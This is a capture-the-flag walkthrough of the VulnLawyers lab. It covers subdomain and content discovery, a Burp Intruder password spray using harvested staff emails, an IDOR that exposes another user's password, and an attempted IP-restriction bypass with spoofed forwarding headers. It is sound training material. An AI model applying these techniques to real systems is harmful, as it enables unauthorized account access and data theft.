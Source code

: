 # VulnLawyers

http://www.vulnlawyers.co.uk/ - 6 flags to find

OK so main page we have

![lawyers](./images/vulnlawyers-01.png)

Nothing special and no custom JS, just jquery and bootstrap.

Let's start with subdomain enumeration

```
└─$ assetfinder -subs-only vulnlawyers.co.uk
vulnlawyers.co.uk
vulnlawyers.co.uk
vulnlawyers.co.uk
```

Nothing from assetfinder, lets do some DNS recon

```
└─$ dnsrecon -n 8.8.8.8 -d vulnlawyers.co.uk
[*] std: Performing General Enumeration against: vulnlawyers.co.uk...
[-] DNSSEC is not configured for vulnlawyers.co.uk
[*] 	 SOA ns1.digitalocean.com 173.245.58.51
[*] 	 SOA ns1.digitalocean.com 2400:cb00:2049:1::adf5:3a33
[*] 	 NS ns3.digitalocean.com 198.41.222.173
[*] 	 NS ns3.digitalocean.com 2400:cb00:2049:1::c629:dead
[*] 	 NS ns2.digitalocean.com 173.245.59.41
[*] 	 NS ns2.digitalocean.com 2400:cb00:2049:1::adf5:3b29
[*] 	 NS ns1.digitalocean.com 173.245.58.51
[*] 	 NS ns1.digitalocean.com 2400:cb00:2049:1::adf5:3a33
[*] 	 A vulnlawyers.co.uk 68.183.255.206
[*] Enumerating SRV Records
[+] 0 Records Found
```

OK nothing special, lets try our subdomain.txt with Burp Intruder. And we get a hit against ```data.vulnlawyers.co.uk```, flag no.1

```
HTTP/1.1 200 OK
server: nginx/1.21.1
date: Sun, 05 Jun 2022 13:44:36 GMT
content-type: application/json
set-cookie: ctfchallenge=xxxx; Max-Age=2592000; Path=/; domain=.vulnlawyers.co.uk
connection: close
Content-Length: 109

{"name":"VulnLawyers Website API","version":"2.1.04","flag":"[^FLAG^XXXXXXXXXXXXXXXX^FLAG^]"}
```

Cool lets do some content discovery against the main domain and the subdomain.

First up the data subdomain, which gave me a hit with ```data.vulnlawyers.co.uk/users```, flag no.3

```
HTTP/1.1 200 OK
server: nginx/1.21.1
date: Sun, 05 Jun 2022 14:08:34 GMT
content-type: application/json
set-cookie: ctfchallenge=XXXXXXXXX; Max-Age=2592000; Path=/; domain=.vulnlawyers.co.uk
connection: close
Content-Length: 406

{"users":[{"name":"Yusef Mcclain","email":"yusef.mcclain@vulnlawyers.co.uk"},{"name":"Shayne Cairns","email":"shayne.cairns@vulnlawyers.co.uk"},{"name":"Eisa Evans","email":"eisa.evans@vulnlawyers.co.uk"},{"name":"Jaskaran Lowe","email":"jaskaran.lowe@vulnlawyers.co.uk"},{"name":"Marsha Blankenship","email":"marsha.blankenship@vulnlawyers.co.uk"}],"flag":"[^FLAG^XXXXXXXXXXXXXXXXX^FLAG^]"}
```

Cool lets loop back and do the main www domain. I get a couple of hits for ```www.vulnlawyers.co.uk/login``` and ```www.vulnlawyers.co.uk/denied```

Login actually gives me a 302 re-direct to denied. Let's take a closer look at the response body

```html
   <div class="row">
        <div class="col-md-6 col-md-offset-3">
            <div class="alert alert-info">
                <p>Access to this portal can now be found here <a href=/lawyers-only">/lawyers-only</a></p>
                <p>[^FLAG^XXXXXX^FLAG^]</p>
            </div>
        </div>
    </div>
</div>
```

We have flag no. 2 and a new path to explore ```www.vulnlawyers.co.uk/lawyers-only```

This re-directs me to the path lawyers-only-login, which gives

![login](./images/vulnlawyers-02.png)

Let's explore this, I have a list of user emails from flag no.3 and a password list to try. Burp Intruder to the rescue!

Using a cluster-bomb attack I get a hit with

```
user:jaskaran.elowe@vulnlawyers.co.uk
pwd:summer
```

The lawyers-only path then gives (with a new token cookie set), flag no.4

![portal](./images/vulnlawyers-03.png)

Clicking the profile button gives, the below, looks like updates are disabled

![profile](./images/vulnlawyers-04.png)

But.... looking at the requests I can see it gets the profile details via an XHR to ```/lawyers-only-profile-details/4 ```

IDOR time, I know I have 5 users from the earlier flag, a couple of requests and I stumble on flag no. 5 with ID 2

```
HTTP/1.1 200 OK
server: nginx/1.21.1
date: Sun, 05 Jun 2022 15:38:46 GMT
content-type: application/json
set-cookie: ctfchallenge=xxxxxxxxxxxxxxx; Max-Age=2592000; Path=/; domain=.vulnlawyers.co.uk
connection: close
Content-Length: 157

{"id":2,"name":"Shayne Cairns","email":"shayne.cairns@vulnlawyers.co.uk","password":"q2V944&#2a1^3p","flag":"[^FLAG^XXXXXXXXXXXXXXXXXXXX^FLAG^]"}
```

Remember that denied path, lets take another look at that. This is part of the response

```html
   <div class="row">
        <div class="col-md-6 col-md-offset-3">
            <div class="alert alert-danger text-center">
                <p>Access is denied from your IP address</p>
            </div>
        </div>
    </div>
```

OK lets try adding a few headers to the request like so to see if we can bypass that

```
GET /denied HTTP/1.1
Host: www.vulnlawyers.co.uk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
X-Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1 
X-Remote-Addr: 127.0.0.1
X-Originating-IP: 127.0.0.1
Cookie: ctfchallenge=xxxxxx; token=xxxxxx
Upgrade-Insecure-Requests: 1
```

No that didn't work, same message...

OK remember our staff portal screen, cases were managed by Shayne. We have his password lets login as him

I now have a new action I can perform

![delete](./images/vulnlawyers-05.png)

Which gives me the last flag no. 6 :)

![flag 6](./images/vulnlawyers-06.png)